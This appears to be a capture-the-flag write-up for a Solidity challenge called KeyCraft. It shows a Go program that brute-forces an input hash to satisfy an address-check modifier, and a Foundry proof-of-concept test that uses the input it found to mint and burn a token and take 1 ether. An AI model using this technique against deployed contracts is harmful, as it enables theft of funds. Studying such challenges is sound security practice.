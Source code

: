 # Analysis

To bypass the `checkAddress` modifier, we can bruteforce the input parameter `b`, the pseudo code:
1. use a number `b`, starts from 0
2. convert it to byte array, eg: hex"00"
3. calculate `keccak256(b) >> 108 << 240 >> 240` 
4. if the result is 13057, then we found our `b`, we print `b` and the attacker address, which is `uint160(uint256(keccak256(b)))`
5. if it's not, increase `b` by 1 and loop again

I did this with Golang:
```go 
package main

import (
	"fmt"

	"github.com/holiman/uint256"
	"golang.org/x/crypto/sha3"
)

func Sha3(bs []byte) []byte {
	hash := sha3.NewLegacyKeccak256()
	hash.Write(bs)
	return hash.Sum(nil)
}

func main() {
	v13057 := uint256.NewInt(13057)
	b := uint256.NewInt(0)
	for {
		hash := Sha3(b.Bytes())
		attacker := uint256.NewInt(0)
		attacker.SetBytes(hash)

		a := uint256.NewInt(0)
		a.SetBytes(hash)
		a.Rsh(a, 108)
		a.Lsh(a, 240)
		a.Rsh(a, 240)

		if a.Eq(v13057) {
			fmt.Println("found")
			fmt.Println("b:", b.Hex())
			atk := attacker.Bytes20()
			fmt.Printf("attacker: 0x%x\n", atk[:])
			return
		}

		b.AddUint64(b, 1)
	}

}

```

The result:

> b: 0x1dc4
> 
> attacker: 0xc1b0f68c233018d3faf76adabe5bfd70748d0f50

We can successfully mint a Token with this `b`, then burn it to get 1 ether.

# POC
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/KeyCraft.sol";

contract KC is Test {
    KeyCraft k;
    address owner;
    address user;
    address attacker;

    function setUp() public {
        owner = makeAddr("owner");
        user = makeAddr("user");
        attacker = 0xC1b0f68C233018d3fAf76adABE5bfD70748d0f50;

        vm.deal(user, 1 ether);

        vm.startPrank(owner);
        k = new KeyCraft("KeyCraft", "KC");
        vm.stopPrank();

        vm.startPrank(user);
        k.mint{value: 1 ether}(hex"dead");
        vm.stopPrank();
    }

    function testKeyCraft() public {
        vm.startPrank(attacker);

        //Solution

		bytes memory b = hex"1dc4";
		k.mint(b);
		k.burn(2); 

        vm.stopPrank();
        assertEq(attacker.balance, 1 ether);
    }
}

```
